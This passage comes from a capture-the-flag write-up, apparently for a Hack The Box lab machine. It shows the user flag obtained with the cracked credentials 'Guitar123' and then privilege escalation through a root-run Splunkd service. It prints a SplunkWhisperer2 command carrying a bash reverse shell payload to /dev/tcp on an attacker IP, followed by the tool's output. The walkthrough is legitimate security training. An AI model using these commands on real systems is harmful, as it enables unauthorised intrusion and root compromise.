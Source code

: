 Success! Got the user flag. I also tried to SSH into the machine by specifying the `shaun` user and the password we got. However, got denied... which is interesting. Turns out that `shaun` is denied access via SSH in the config file: `DenyUsers shaun`. This was probably a good idea from the machine creator, as the `Guitar123` password was in rockyou.

## Privesc: `shaun` to `root`

Started running linpeas in the background while having a look around the system. One of the first things of interested I noted was the Splunkd service was running as root.

```none
root        1134  0.1  2.1 257468 86816 ?        Sl   21:24   0:05 splunkd -p 8089 start
```

At the start of this machine, I had a feeling that this service would have a purpose, but needed credentials to perform any sort of attack. I navigated to the web application and tried logging in with the only credentials we had: `shaun:Guitar123`.

```none
https://10.10.10.209:8089/services
```

And we have access to a bunch more options. I had a read of the [HackTricks article on Splunk LPE and Persistence](https://book.hacktricks.xyz/linux-unix/privilege-escalation/splunk-lpe-and-persistence) which outlined how to use a Python tool, named [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2), to get remote code execution.

I cloned the project repo:

```none
git clone https://github.com/cnotin/SplunkWhisperer2.git
```

This tool requires a lot of arguments, but the most important is the payload. The HackTricks article had a couple examples that added a root user. Since Splunkd was running as `root` on this machine, I decided to use a simple Bash reverse shell as the payload.

```none
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.2 --lport 9002 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'"
```

The executed the tool.

```none
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpxtqyxmqy.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.2:9002/
10.10.10.209 - - [26/Sep/2021 09:39:35] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```
